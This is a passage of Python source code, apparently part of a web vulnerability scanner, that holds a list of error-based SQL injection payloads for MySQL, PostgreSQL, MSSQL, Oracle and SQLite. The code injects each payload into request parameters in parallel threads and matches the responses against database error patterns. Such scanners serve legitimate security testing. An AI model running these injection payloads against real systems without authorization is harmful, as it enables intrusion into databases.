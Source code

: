 ```
                r'\' oRdeR bY 500 ',
                r';`)',
                r'\\', 
                r"%%2727", 
                r"%25%27", 
                r"%60", 
                r"%5C",
            ]
            if conf.level == 3: 
                _payloads += [
                ## 强制报错
                # MySQL
                r'\' AND 0xG1#',
                # PostgreSQL  
                r"' AND 'a' ~ 'b\[' -- ",
                # MSSQL
                r"; RAISERROR('Error generated', 16, 1) -- ", 
                # Oracle
                r"' UNION SELECT XMLType('<invalid><xml>') FROM dual -- ",  
                # SQLite
                r"' UNION SELECT SUBSTR('o', -1, 1) -- ",
                ]
    
            iterdatas = self.generateItemdatas()
            # 内置的线程并发
            with ThreadPoolExecutor(max_workers=None) as executor:
                futures = [
                    executor.submit(self.process, _, _payloads) for _ in iterdatas
                ]
                try:
                    for future in as_completed(futures):
                        try:
                            future.result()
                        except Exception as task_e:
                            logger.error(f"Task failed: {task_e}", origin=self.name)
                except KeyboardInterrupt:
                    executor.shutdown(wait=False)
                except Exception as e:
                    logger.error(f"Unexpected error: {e}", origin=self.name)
                    executor.shutdown(wait=False)
    
    def Get_sql_errors(self):
        sql_errors = []
        for database, re_strings in rules.items():
            for re_string in re_strings:
                sql_errors.append((re.compile(re_string, re.IGNORECASE), database))
        return sql_errors
    
    def process(self, _, _payloads):
        k, v, position = _
        for _payload in _payloads:
            payload = self.insertPayload({
                "key": k, 
                "value": v, 
                "position": position, 
                "payload": _payload
                })
            r = self.req(position, payload)
            if not r:
                continue
            html = r.text
            for sql_regex, dbms_type in self.Get_sql_errors():
                match = sql_regex.search(html)
```